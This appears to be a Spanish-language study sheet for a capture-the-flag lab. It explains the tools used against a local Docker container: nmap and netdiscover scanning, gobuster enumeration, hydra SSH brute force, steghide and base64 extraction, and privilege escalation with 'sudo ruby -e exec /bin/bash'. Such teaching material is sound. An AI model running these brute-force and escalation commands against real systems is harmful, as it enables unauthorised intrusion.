 INVESTIGACIÓN DE HERRAMIENTAS EMPLEADAS

EXPLICACIÓN DETALLADA DE COMANDOS Y VARIANTES
scp -r amor kali@192.168.1.12:/home/kali/Documents/
Descripción: Copia recursivamente el directorio amor al sistema remoto.
Variantes:
scp archivo.txt user@host:/ruta/: Copia un archivo a un host remoto.
scp user@host:/archivo.txt ./: Copia desde remoto a local.
scp -P 2222 archivo.txt user@host:/: Usa un puerto SSH personalizado.

sudo apt install docker.io
Instala Docker desde los repositorios oficiales.
Variantes:
sudo apt-get install docker-ce: Versión Community Edition.
curl -fsSL https://get.docker.com | sh: Instalación vía script oficial.
snap install docker: Instalación vía Snap (Ubuntu).

unzip archivo.zip
Descomprime archivos comprimidos en ZIP.
Variantes:
unzip -l archivo.zip: Lista contenido sin extraer.
unzip archivo.zip -d /ruta: Especifica carpeta destino.
unzip -o archivo.zip: Sobrescribe sin preguntar.

chmod +x auto\_deploy.sh
Otorga permisos de ejecución.
Variantes:
chmod 755 archivo: Lectura y ejecución para todos.
chmod u+x archivo: Solo usuario puede ejecutar.
chmod -x archivo: Quita permisos de ejecución.

ip add
Muestra interfaces de red y direcciones IP.
Variantes:
ip a: Versión abreviada.
ifconfig: Comando clásico (menos actualizado).
ip addr show docker0: Interfaz específica.

sudo netdiscover -i docker0 -r 172.17.0.0/24
Descubre dispositivos activos por ARP.
Variantes:
-i eth0: Especifica interfaz.
-r 192.168.1.0/24: Segmento personalizado.
-P: Modo pasivo (sin enviar ARP).

sudo nmap --min-rate 5000 -p- -sS -sV 172.17.0.2
Escaneo SYN completo de todos los puertos, con detección de servicios.
Variantes:
-p 1-1000: Escaneo limitado a primeros puertos.
-A: Detecta OS y versión de servicios.
-T4: Ajusta la velocidad del escaneo.

gobuster dir -u http://172.17.0.2/ -w ...
Enumeración de directorios web.
Variantes:
-x php,html: Busca extensiones específicas.
-t 50: Número de hilos simultáneos.
-o salida.txt: Guarda resultados en archivo.

hydra -l carlota -P rockyou.txt ssh://172.17.0.2 -t 10
Ataque de fuerza bruta al servicio SSH.
Variantes:
-L usuarios.txt -P claves.txt: Lista de usuarios y contraseñas.
-f: Detenerse en el primer éxito.
-V: Muestra cada intento en consola.

scp carlota@172.17.0.2:/ruta/imagen.jpg /home/kali/...
Descarga la imagen del host remoto.
Ver variantes ya descritas en el primer comando scp.
file imagen.jpg
Detecta el tipo de archivo.
Variantes:
file *: Detecta todos los archivos del directorio.
file -i imagen.jpg: Muestra tipo MIME.
file -b imagen.jpg: Salida sin nombre de archivo.

steghide --extract -sf imagen.jpg
Extrae datos ocultos dentro de imágenes.
Variantes:
--info -sf archivo.jpg: Información del archivo.
--embed -cf cover.jpg -ef secret.txt: Inserta secreto.
--extract -sf archivo.jpg -p clave: Usa contraseña.

echo "ZXNsYWNhc2FkZXBpbnlwb24=" | base64 -d; echo
Decodifica base64.
Variantes:
base64 archivo.txt: Codifica archivo.
base64 -d archivo.txt: Decodifica archivo.
echo -n ... | base64: Codifica sin salto de línea.

sudo -l
Verifica comandos que se pueden ejecutar con sudo.
sudo /usr/bin/ruby -e 'exec "/bin/bash"': Shell escalada vía Ruby.
Variantes comunes de sudo:
sudo su: Cambia a root.
sudo -i: Shell de root interactiva.
sudo -u usuario comando: Ejecuta como otro usuario.


DIAGRAMA DE FLUJO DEL PROCEDIMIENTO REALIZADO
graph TD
 A[Inicio: Máquina Kali lista] --> B[Transferencia de carpeta amor por SCP]
 B --> C[Instalación de Docker]
 C --> D[Despliegue del laboratorio con script]
 D --> E[Identificar IP de contenedor con ip add]
 E --> F[Descubrimiento de hosts con netdiscover]
 F --> G[Escaneo de puertos con nmap]
 G --> H[Fuzzing de sitio web con gobuster]
 H --> I[Bruteforce con Hydra a SSH]
 I --> J[Conexión SSH exitosa como carlota]
 J --> K[Navegación a imagen.jpg]
 K --> L[Descarga con SCP]
 L --> M[Revisión del archivo con file]
 M --> N[Extracción con steghide]
 N --> O[Decodificación con base64]
 O --> P[Escalada de privilegios con sudo y ruby]
 P --> Q[Fin: whoami]

ANÁLISIS DETALLADO DE HERRAMIENTAS Y COMANDOS
1. scp (Secure Copy Protocol)
Definición y Explicación Detallada:
scp es una herramienta de línea de comandos que permite transferir archivos o directorios entre sistemas de forma segura, utilizando el protocolo SSH para el cifrado de la comunicación. Es ideal para enviar datos confidenciales entre un host local y uno remoto o entre dos hosts remotos.
Ejemplo Práctico:
bash
CopiarEditar
scp archivo.txt user@192.168.1.10:/home/user/
Variantes y Flags:
-r: Copia directorios de forma recursiva.
-P : Especifica el puerto SSH (por defecto es 22).
-C: Habilita la compresión de datos durante la transferencia.
-v: Muestra información detallada sobre la transferencia (modo verbose).
Casos de Uso Reales:
Transferencia de archivos de configuración entre servidores.
Envío de scripts de automatización o herramientas a entornos de pruebas.
Copia remota de imágenes, respaldos o resultados de escaneo.

2. docker
Definición y Explicación Detallada:
Docker es una plataforma de virtualización de contenedores que permite construir, ejecutar y administrar aplicaciones en entornos aislados. Cada contenedor incluye la aplicación y todas sus dependencias, asegurando portabilidad y consistencia entre entornos.
Ejemplo Práctico:
bash
CopiarEditar
docker run -it ubuntu bash
Variantes y Flags:
run: Inicia un nuevo contenedor.
ps: Lista los contenedores en ejecución.
images: Muestra las imágenes disponibles localmente.
-d: Ejecuta el contenedor en segundo plano (modo detached).
-p: Publica puertos del contenedor al host.
Casos de Uso Reales:
Simulación de laboratorios de hacking ético.
Desarrollo y despliegue de microservicios en producción.
Creación de entornos de pruebas reproducibles.

3. netdiscover
Definición y Explicación Detallada:
netdiscover es una herramienta de descubrimiento de red que utiliza peticiones ARP para identificar hosts activos en una red local. Es útil cuando se desconoce el rango exacto de IPs en uso y se desea hacer un reconocimiento pasivo.
Ejemplo Práctico:
bash
CopiarEditar
netdiscover -i eth0 -r 192.168.1.0/24
Variantes y Flags:
-i : Define la interfaz de red a usar.
-r : Especifica el rango de IPs a escanear.
-P: Modo pasivo (no envía paquetes ARP).
-s : Intervalo de escaneo.
Casos de Uso Reales:
Reconocimiento inicial antes de un escaneo activo.
Identificación de dispositivos conectados a una red interna.
Uso en entornos restringidos donde se necesita evitar alertas.

4. nmap (Network Mapper)
Definición y Explicación Detallada:
nmap es una poderosa herramienta de escaneo de redes que permite descubrir dispositivos conectados, puertos abiertos, servicios en ejecución y versiones de software. También puede detectar el sistema operativo del objetivo.
Ejemplo Práctico:
bash
CopiarEditar
nmap -sS -p- -T4 192.168.1.10
Variantes y Flags:
-sS: Escaneo SYN (rápido y furtivo).
-A: Activación de detección avanzada (OS, scripts, traceroute).
-p-: Escanea todos los puertos del 1 al 65535.
-T4: Velocidad del escaneo (más agresiva).
-sV: Detección de versiones de servicios.
Casos de Uso Reales:
Auditoría de seguridad de redes.
Identificación de puertos vulnerables o mal configurados.
Evaluación de exposición de servicios antes de una intrusión.

5. hydra
Definición y Explicación Detallada:
hydra es una herramienta de ataque por fuerza bruta que permite probar múltiples combinaciones de nombres de usuario y contraseñas contra servicios de red como SSH, FTP, HTTP, entre otros. Es útil en pruebas de penetración para evaluar la robustez de sistemas de autenticación.
Ejemplo Práctico:
bash
CopiarEditar
hydra -l admin -P passwords.txt ssh://192.168.1.10
Variantes y Flags:
-l: Usuario objetivo.
-P: Ruta del diccionario de contraseñas.
-t: Número de hilos en paralelo.
-V: Muestra cada intento (modo verbose).
-f: Detiene el ataque al encontrar la primera contraseña válida.
Casos de Uso Reales:
Evaluación de credenciales débiles en servidores de prueba.
Competencias de seguridad informática (CTFs).
Validación de políticas de seguridad de contraseñas

6. gobuster
Definición y Explicación Detallada:
gobuster es una herramienta de fuerza bruta escrita en Go para realizar descubrimiento de contenido web. Permite enumerar directorios y archivos ocultos en aplicaciones web mediante diccionarios (wordlists), útil en fases de reconocimiento.
Ejemplo Práctico:
bash
CopiarEditar
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
Variantes y Flags:
dir: Modo de búsqueda de directorios.
-u : URL objetivo.
-w : Diccionario de palabras.
-x : Busca extensiones (ej. .php, .html).
-t : Número de hilos paralelos (mayor velocidad).
Casos de Uso Reales:
Enumeración de rutas ocultas en servidores web.
Descubrimiento de paneles de administración o archivos sensibles.
Soporte en pruebas de penetración web.

7. ssh (Secure Shell)
Definición y Explicación Detallada:
ssh es un protocolo criptográfico que permite la conexión remota segura a otro sistema. Proporciona un canal encriptado a través del cual se puede acceder a la terminal de un servidor o enviar comandos de forma remota.
Ejemplo Práctico:
bash
CopiarEditar
ssh carlota@172.17.0.2
Variantes y Flags:
-p : Conectar por un puerto diferente al 22.
-i : Usar clave privada para autenticación.
-v: Muestra detalles de la conexión (modo verbose).
-X: Reenvío de sesiones gráficas (X11).
Casos de Uso Reales:
Administración de servidores remotos.
Automatización de tareas vía scripts.
Acceso remoto a sistemas en entornos de red seguros.

8. file
Definición y Explicación Detallada:
file es una utilidad de línea de comandos que detecta el tipo de archivo analizando su contenido (magic numbers), en lugar de confiar únicamente en su extensión. Es útil para identificar binarios, imágenes, documentos, etc.
Ejemplo Práctico:
bash
CopiarEditar
file imagen.jpg
Variantes y Flags:
-b: Muestra solo el tipo del archivo, sin el nombre.
-i: Muestra el tipo MIME del archivo.
-z: Examina el contenido de archivos comprimidos.
Casos de Uso Reales:
Validación forense de archivos sospechosos.
Confirmación de formato real de un archivo.
Inspección previa al análisis esteganográfico.

9. steghide
Definición y Explicación Detallada:
steghide es una herramienta de esteganografía que permite ocultar y extraer datos (como archivos de texto o claves) dentro de imágenes o archivos de audio. Es especialmente útil en contextos de análisis forense o CTF.
Ejemplo Práctico:
bash
CopiarEditar
steghide --extract -sf imagen.jpg
Variantes y Flags:
--embed -cf  -ef : Oculta un archivo dentro de otro.
--extract -sf : Extrae datos ocultos del archivo.
-p : Define una contraseña para ocultar/extraer datos.
--info: Muestra metadatos del archivo steganografiado.
Casos de Uso Reales:
Ocultamiento de mensajes sensibles en entornos restringidos.
Recuperación de información secreta durante CTFs o retos de seguridad.
Análisis en investigaciones digitales y forenses.

10. base64
Definición y Explicación Detallada:
base64 es una utilidad de codificación que transforma datos binarios en texto ASCII legible, útil para transmitir datos a través de medios que solo manejan texto. También se usa para ocultar contenido o manipular archivos en texto plano.
Ejemplo Práctico:
bash
CopiarEditar
echo "ZXNsYWNhc2FkZXBpbnlwb24=" | base64 -d; echo
Variantes y Flags:
-d: Decodifica una cadena base64.
-w : Define número de caracteres por línea en salida codificada.
-i : Codifica/decodifica archivo directamente.
Casos de Uso Reales:
Decodificación de claves o tokens en pruebas de penetración.
Procesamiento de archivos o datos en entornos web/API.
Análisis de mensajes codificados en ingeniería inversa o CTF.

11. sudo /usr/bin/ruby -e 'exec "/bin/bash"'
Definición y Explicación Detallada:
En este contexto, se utiliza sudo para ejecutar el intérprete de Ruby con privilegios elevados. La opción -e permite ejecutar código directamente como argumento. El código 'exec "/bin/bash"' reemplaza el proceso actual con un shell Bash, otorgando acceso privilegiado si sudo está autorizado.
Ejemplo Práctico:
bash
CopiarEditar
sudo /usr/bin/ruby -e 'exec "/bin/bash"'
Variantes y Flags:
sudo -l: Lista comandos permitidos para el usuario.
sudo -u  comando: Ejecuta comando como otro usuario.
ruby -e: Ejecuta expresiones Ruby desde línea de comandos.
Casos de Uso Reales:
Escalada de privilegios en sistemas mal configurados.
Uso controlado de intérpretes para análisis o scripting.
Acceso administrativo en retos CTF cuando Ruby está permitido.


FUENTES
Docker Docs: https://docs.docker.com/
Hydra: https://tools.kali.org/password-attacks/hydra
Nmap Reference: https://nmap.org/book/man-briefoptions.html
Steghide: http://steghide.sourceforge.net/
Netdiscover: 
Gobuster: 
scp man: https://man7.org/linux/man-pages/man1/scp.1.html
Ruby exec usage: 
